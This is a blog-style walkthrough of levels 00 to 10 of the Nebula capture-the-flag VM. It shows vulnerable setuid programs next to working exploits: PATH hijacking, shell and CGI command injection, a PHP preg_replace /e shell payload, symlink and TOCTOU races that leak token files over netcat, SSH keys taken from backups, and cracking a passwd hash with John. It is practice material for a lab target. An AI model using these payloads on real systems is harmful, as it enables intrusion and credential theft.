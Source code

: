 Cracking Nebula Part 1
######################

:title: Cracking Nebula Part 1
:date: 2014-06-24T00
:modified: 2014-06-24 22
:tags:


On `Exploit Exercises <http://www.exploit-exercises.com/>`_ you can find a 
number of CTF (Capture The Flag) VM images where you can practice your 
exploiting, hacking and general computer savviness. I've been working 
my way through the Nebula machine and figured I might as well write 
up the process both for other's benefit if they get stuck, and also as 
a sort of diary for myself, so I can refer back to any info if I need to.

The Nebula VM can be downloaded from the `Exploit Exercises download page <http://www.exploit-exercises.com/download>`_

To quickly explain what you need to do: Login in as user :code:`levelxx` and then run :code:`getflag` as user :code:`flagxx`. 
There's some explanations for each level on the machine's page over at Exploit Exercises.


Level 00 ##
-----------

> This level requires you to find a Set User ID program that will run as the "flag00" account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.
> 
> Alternatively, look at the find man page. 

So somewhere from the root directory is a file will run as the flag00 user. As stated you can either look for it, or
use :code:`find` to search for it. I chose to do a little bit of both. Running :code:`find` from the root of a system can take some time so I chose to take a look first. Amongst the usual directories at linux root level is a :code:`rofs` directory. So let's take a look inside.

.. code-block:: console

	
	flag00@nebula:/rofs$ ls
	bin   dev  home        lib    mnt  proc  run   selinux  sys  usr  vmlinuz
	boot  etc  initrd.img  media  opt  root  sbin  srv      tmp  var
	

Looks the same, but let's run a find in here.

.. code-block:: console

	
	level00@nebula:/rofs$ find -user flag00 -print 2> /dev/null
	./bin/.../flag00
	./home/flag00
	./home/flag00/.bash_logout
	./home/flag00/.bashrc
	./home/flag00/.profile
	

There's the usual stuff, but there's also :code:`./bin/.../flag00`. If you run this you can get the flag:

.. code-block:: console

	
	level00@nebula:/rofs$ ./bin/.../flag00
	Congrats, now run getflag to get your flag!
	flag00@nebula:/rofs$ getflag
	You have successfully executed getflag on a target account
	

Level 01 ##
-----------

>  There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? 

.. code-block:: c
	
	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  gid_t gid;
	  uid_t uid;
	  gid = getegid();
	  uid = geteuid();
	
	  setresgid(gid, gid, gid);
	  setresuid(uid, uid, uid);
	
	  system("/usr/bin/env echo and now what?");
	}
	

So let's see about this vulnerability. It doesn't accept user input, but luckily there's only one place where it actually runs anything, so that makes it easier to narrow down where its weakness is. The :code:`system` call executes an :code:`echo` but there's a small oversight. It calls :code:`echo` without an explicit path, can you see where this is going? As :code:`flag01` runs as user :code:`flag01`, anything it executes will also run under that user.

.. code-block:: console
	
	level01@nebula:/home/flag01$ mkdir /tmp/mybin
	level01@nebula:/home/flag01$ cd /tmp/mybin
	level01@nebula:/tmp/mybin$ which getflag
	/bin/getflag
	level01@nebula:/tmp/mybin$ cp /bin/getflag echo
	level01@nebula:/tmp/mybin$ cd ~flag01
	level01@nebula:/home/flag01$ export PATH=/tmp/mybin:${PATH}
	level01@nebula:/home/flag01$ ./flag01
	You have successfully executed getflag on a target account
	

Level 02 ##
-----------

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? 

.. code-block:: C
	
	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  char *buffer;
	
	  gid_t gid;
	  uid_t uid;
	
	  gid = getegid();
	  uid = geteuid();
	
	  setresgid(gid, gid, gid);
	  setresuid(uid, uid, uid);
	
	  buffer = NULL;
	
	 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
	  printf("about to call system(\"%s\")\n", buffer);
	  
	  system(buffer);
	}

This is very similar to *Level01* but this time they seem to have patched the system call. However this time they've added something to the statement that we have control over. Look at line 22 and think about how we can make use of that.

.. code-block:: console

	level02@nebula:/home/flag02$ export USER='"";getflag'
	level02@nebula:/home/flag02$ ./flag02
	about to call system("/bin/echo "";getflag is cool")
	
	You have successfully executed getflag on a target account

Level 03 ##
-----------

> Check the home directory of flag03 and take note of the files there.
> 
> There is a crontab that is called every couple of minutes. 

So first things first let's take a look at that crontab

.. code-block:: console

	level03@nebula:/home/flag03$ cat writable.sh
	#!/bin/sh
	
	for i in /home/flag03/writable.d/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done

Ok, so it will take a shell script in the :code:`writeable.d` directory, execute it and then delete it. Luckily the directory is world read/write, allowing us to add out own script. As the crontab will run the script as the :code:`flag03` user, we might as well just run the :code:`getflag` from it. We'll capture some output to make sure it worked.

.. code-block:: console

	level03@nebula:/home/flag03$ cat writeable.d/getit
	/bin/getflag > /tmp/gotit
	# wait for the script to run....
	level03@nebula:/home/flag03$ cat /tmp/gotflag
	You have successfully executed getflag on a target account

Level 04 ##
-----------

> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :) 

.. code-block:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  char buf[1024];
	  int fd, rc;
	
	  if(argc == 1) {
	    printf("%s [file to read]\n", argv[0]);
	    exit(EXIT_FAILURE);
	  }
	
	  if(strstr(argv[1], "token") != NULL) {
	    printf("You may not access '%s'\n", argv[1]);
	    exit(EXIT_FAILURE);
	  }
	
	  fd = open(argv[1], O_RDONLY);
	  if(fd == -1) {
	    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
	  }
	
	  rc = read(fd, buf, sizeof(buf));
	  
	  if(rc == -1) {
	    err(EXIT_FAILURE, "Unable to read fd %d", fd);
	  }
	
	  write(1, buf, rc);
	}

Ok, so let's take a look at what happens when we run the file
.. code-block:: console

	level04@nebula:/home/flag04$ ls
	flag04  token
	level04@nebula:/home/flag04$ ./flag04
	./flag04 [file to read]
	level04@nebula:/home/flag04$ ./flag04 token
	You may not access 'token'

So we can't access token. Looking at the code there's a check to see if the file is named :code:`token`. We can't simply copy the *token* file because it's read only by the flag user. So there's only one thing for it: symlinks

Then get the flag (some ssh output cut for brevity)
.. code-block:: console

	level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/myfile
	level04@nebula:/home/flag04$ ./flag04 /tmp/myfile
	06508b5e-8909-4f38-b630-fdb148a848a2
	level04@nebula:/home/flag04$ ssh flag04@localhost
	
	flag04@localhost's password:
	
	flag04@nebula:~$ getflag
	You have successfully executed getflag on a target account

So the output of the command is a *token* which is the term used for the password of the flag's user. Using this to logon as *flag04* and run :code:`getflag`.

Level 05 ##
-----------

> Check the flag05 home directory. You are looking for weak directory permissions 

Ok, let's do that
.. code-block:: console

	level05@nebula:~$ cd ~flag05
	level05@nebula:/home/flag05$ ls -la
	total 5
	drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
	drwxr-xr-x 1 root   root     420 2012-08-27 07:18 ..
	drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
	-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
	-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
	-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
	drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

That *backup* directory looks like our target

.. code-block:: console

	level05@nebula:/home/flag05$ cd .backup/
	level05@nebula:/home/flag05/.backup$ ls -la
	total 2
	drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
	drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
	-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
	level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp
	.ssh/
	.ssh/id_rsa.pub
	.ssh/id_rsa
	.ssh/authorized_keys

Right so let's use these keys to login as *flag05*. 

.. code-block:: console

	level05@nebula:/home/flag05/.backup$ ssh -i /tmp/.ssh/id_rsa flag05@localhost
	
	flag05@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 06 ##
-----------

> The flag06 account credentials came from a legacy unix system. 

To cut a long story short, the way the password is stored for this user is not the same as for the other users. In older \*nix systems the password was stored inside the :code:`/etc/passwd` file. So let's take a look:

.. code-block:: console

	level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
	flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

Yep, there's the encrypted password. Grab that line and run it through John The Ripper

.. code-block:: console

	root@kali:~# echo flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh > nebula.txt
	root@kali:~# john nebula.txt  -show
	flag06:hello:993:993::/home/flag06:/bin/sh
	
	1 password hash cracked, 0 left

That's that, now back on the nebula box

.. code-block:: console

	level06@nebula:/home/flag06$ ssh flag06@localhost
	
	flag06@localhost's password: hello
	
	getflag06@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 07 ##
-----------

>The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server. 

.. code-block:: perl

	
	#!/usr/bin/perl
	
	use CGI qw{param};
	
	print "Content-type: text/html\n\n";
	
	sub ping {
	  $host = $_[0];
	
	  print("<html><head><title>Ping results</title></head><body><pre>");
	
	  @output = `ping -c 3 $host 2>&1`;
	  foreach $line (@output) { print "$line"; } 
	
	  print("</pre></body></html>");
	  
	}
	
	# check if Host set. if not, display normal page, etc
	
	ping(param("Host"));
	

So the Nebula machine has a webserver running. Checking the config file we can see that it's running on port 7007. The script tells us that it's expecting a :code:`Host` parameter. So let's hit the server from our web browser at the following URL (your IP will depend on what IP your VM has) :code:`http://192.168.56.102:7007/index.cgi?Host=192.168.56.102`

Basically I am pinging the same host. The webpage will display the output of the ping command.

We can't change the ping call, but we have control over what gets passed to the command. Let's craft a special URL

.. code-block:: console

	$> curl http://192.168.56.102:7007/index.cgi?Host=127.0.0.1%20%26%26%20getflag
	<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
	64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.117 ms
	64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.028 ms
	64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.035 ms
	
	--- 127.0.0.1 ping statistics ---
	3 packets transmitted, 3 received, 0% packet loss, time 1998ms
	rtt min/avg/max/mdev = 0.028/0.060/0.117/0.040 ms
	You have successfully executed getflag on a target account

Notice we need to encode the URL parms. The plaintext URL is :code:`http://192.168.56.102:7007/index.cgi?Host=127.0.0.1 && getflag`

Level 08 ##
-----------

> World readable files strike again. Check what that user was up to, and use it to log into flag08 account. 

Let's take a look then

.. code-block:: console

	level08@nebula:/home/flag08$ ls -la
	total 18
	drwxr-x--- 1 flag08 level08   60 2014-06-14 14:10 .
	drwxr-xr-x 1 root   root     500 2012-08-27 07:18 ..
	-rw------- 1 flag08 flag08    13 2014-06-14 14:10 .bash_history
	-rw-r--r-- 1 flag08 flag08   220 2011-05-18 02:54 .bash_logout
	-rw-r--r-- 1 flag08 flag08  3353 2011-05-18 02:54 .bashrc
	-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
	-rw-r--r-- 1 flag08 flag08   675 2011-05-18 02:54 .profile

The only interesting file that's readable here is :code:`capture.pcap`. Let's copy it out and use *Wireshark* to take a look at it.

.. code-block:: console

	$> scp level08@192.168.56.102:/home/flag08/capture.pcap .
	
	level08@192.168.56.102's password:
	capture.pcap                                  100% 8302     8.1KB/s   00:00
	

Once in Wireshark we can see a TCP stream. Right click on one of the entries and select :code:`Follow TCP Stream`. A new window will appear in which we can see a login attempt. Red entries are user input, and blue entries are the server responses. The username is :code:`level08`. The password is... well, take a look. Notice the :code:`7f` entries. Those are deletes.

`{{< figure src="http://i.imgur.com/IEseNUh.png" >}} <http://i.imgur.com/IEseNUh.png>`_

So....

.. code-block:: console

	level08@nebula:/home/flag08$ ssh flag08@localhost
	
	flag08@localhost's password: backd00Rmate
	
	flag08@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 09 ##
-----------

> There's a C setuid wrapper for some vulnerable PHP code... 

.. code-block:: php

	<?php
	
	function spam($email)
	{
	  $email = preg_replace("/\./", " dot ", $email);
	  $email = preg_replace("/@/", " AT ", $email);
	  
	  return $email;
	}
	
	function markup($filename, $use_me)
	{
	  $contents = file_get_contents($filename);
	
	  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
	  $contents = preg_replace("/\[/", "<", $contents);
	  $contents = preg_replace("/\]/", ">", $contents);
	
	  return $contents;
	}
	
	$output = markup($argv[1], $argv[2]);
	
	print $output;
	
	?>

Let's run it to see what it actually does.

.. code-block:: console

	level09@nebula:/home/flag09$ echo [email mail@test.com] > /tmp/test.txt
	level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
	mail AT test dot com

So the vulnerable part here is the `preg_replace` with the *e* flag. For information on this see `https://bugs.php.net/bug.php?id=35960 <https://bugs.php.net/bug.php?id=35960>`_.

So there's a few ways we can exploit this. We basically need to pass a command to the script that will get executed in the :code:`preg_replace`. Let's try to simply get a shell as the *flag09* user and get our flag.

.. code-block:: console

	level09@nebula:/home/flag09$ echo '[email ${${@system('sh')}}]' > /tmp/test.txt
	level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
	sh-4.2$ whoami
	flag09
	sh-4.2$ getflag
	You have successfully executed getflag on a target account

Level 10 ##
-----------

> The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call. 

.. code-block:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>
	#include <errno.h>
	#include <sys/socket.h>
	#include <netinet/in.h>
	#include <string.h>
	
	int main(int argc, char **argv)
	{
	  char *file;
	  char *host;
	
	  if(argc < 3) {
	    printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
	    exit(1);
	  }
	
	  file = argv[1];
	  host = argv[2];
	
	  if(access(argv[1], R_OK) == 0) {
	    int fd;
	    int ffd;
	    int rc;
	    struct sockaddr_in sin;
	    char buffer[4096];
	
	    printf("Connecting to %s:18211 .. ", host); fflush(stdout);
	
	    fd = socket(AF_INET, SOCK_STREAM, 0);
	
	    memset(&sin, 0, sizeof(struct sockaddr_in));
	    sin.sin_family = AF_INET;
	    sin.sin_addr.s_addr = inet_addr(host);
	    sin.sin_port = htons(18211);
	
	    if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
	      printf("Unable to connect to host %s\n", host);
	      exit(EXIT_FAILURE);
	    }
	
	#define HITHERE ".oO Oo.\n"
	    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
	      printf("Unable to write banner to host %s\n", host);
	      exit(EXIT_FAILURE);
	    }
	#undef HITHERE
	
	    printf("Connected!\nSending file .. "); fflush(stdout);
	
	    ffd = open(file, O_RDONLY);
	    if(ffd == -1) {
	      printf("Damn. Unable to open file\n");
	      exit(EXIT_FAILURE);
	    }
	
	    rc = read(ffd, buffer, sizeof(buffer));
	    if(rc == -1) {
	      printf("Unable to read from file: %s\n", strerror(errno));
	      exit(EXIT_FAILURE);
	    }
	
	    write(fd, buffer, rc);
	
	    printf("wrote file!\n");
	
	  } else {
	    printf("You don't have access to %s\n", file);
	  }
	}
	

Now this one take a bit of playing around to get it right. Basically what we are exploiting here is that the file gets checked and then gets used. The :code:`access` call checks the permissions based on the actual user, not the guid user. The file open calls however will run as the guid user. So in between these two calls, we *could* modify the target file and get the program to read the right file.

So ideally we want to create a symlink to a file we own when the :code:`access` call runs, then replace that symlink with one that points to the token file. This relies heavily on timing when to update the symlink. I had a play and this is the most reliable way I have found.

You will need two shells (both on nebula is fine but optional); call them termA and termB. So in termB startup a listening netcat on the relevant port

.. code-block:: console

	level10@nebula:~$ nc -l 18211

in termA we create our symlink, then run the command along with a command to update the symlink

.. code-block:: console

	level10@nebula:/home/flag10$ touch /tmp/mytoken
	level10@nebula:/home/flag10$ ln -fs /tmp/mytoken /tmp/getme
	level10@nebula:/home/flag10$ ./flag10 /tmp/getme 192.168.0.8 & ln -fs /home/flag10/token /tmp/getme
	[1] 7359
	Connecting to 192.168.0.8:18211 .. level10@nebula:/home/flag10$ Connected!
	Sending file .. wrote file!

Meanwhile, back in termB

.. code-block:: console

	.oO Oo.
	615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
	level10@nebula:~$ ssh flag10@localhost
	
	flag10@localhost's password: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
	
	flag10@nebula:~$ getflag
	You have successfully executed getflag on a target account

`Part 2 of Cracking Nebula <http://unlogic.co.uk/2014/07/02/cracking-nebula-part2/>`_


